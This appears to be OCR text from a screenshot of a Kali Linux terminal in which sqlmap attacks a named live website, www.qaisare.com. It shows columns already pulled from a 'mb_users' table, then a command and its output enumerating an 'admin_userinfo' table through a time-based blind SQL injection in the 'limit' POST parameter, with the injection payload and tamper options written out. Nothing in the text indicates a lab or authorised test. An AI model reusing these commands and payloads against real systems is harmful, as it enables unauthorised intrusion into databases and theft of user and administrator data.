 [18:49:15] [INFO] adjusting time delay to 1 second due to good response times
[18:49:15] [INFO] retrieved: mos                                                                 
[18:51:24] [INFO] retrieved: idstatogenerale                                                     
[18:53:32] [INFO] retrieved: old                                                                 
                                                                                                 
Database: qaisare_com
Table: mb_users
[5 columns]
+-----------------+---------+
| Column          | Type    |
+-----------------+---------+
| idstatogenerale | numeric |
| mos             | numeric |
| o               | numeric |
| old             | numeric |
| superssn        | numeric |
+-----------------+---------+

[18:54:10] [INFO] fetched data logged to text files under '/root/.sqlmap/output/www.qaisare.com'

[*] shutting down at 18:54:10

root@kali:~# sqlmap --url "https://www.qaisare.com/includes/slider.php" --data "limit=13&start=0&condition=ORDER+BY+%60date_of_post%60+DESC+LIMIT"  --no-cast --tamper between.py -D qaisare_com -T admin_userinfo --columns
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.2.10#stable}
|_ -| . [.]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 18:56:53

[18:56:53] [INFO] loading tamper module 'between'
[18:56:54] [INFO] resuming back-end DBMS 'mysql' 
[18:56:54] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: limit (POST)
    Type: AND/OR time-based blind
    Title: MySQL >= 5.1 time-based blind (heavy query) - PROCEDURE ANALYSE (EXTRACTVALUE)
    Payload: limit=13 PROCEDURE ANALYSE(EXTRACTVALUE(6233,CONCAT(0x5c,(BENCHMARK(5000000,MD5(0x4a735968))))),1)&start=0&condition=ORDER BY `date_of_post` DESC LIMIT
---
[18:56:54] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
[18:56:54] [INFO] the back-end DBMS is MySQL
web application technology: Apache, PHP 7.4.7
back-end DBMS: MySQL 5 (MariaDB fork)
[18:56:54] [INFO] fetching columns for table 'admin_userinfo' in database 'qaisare_com'
[18:56:54] [WARNING] time-based comparison requires larger statistical model, please wait..............................  (done)
[18:57:02] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
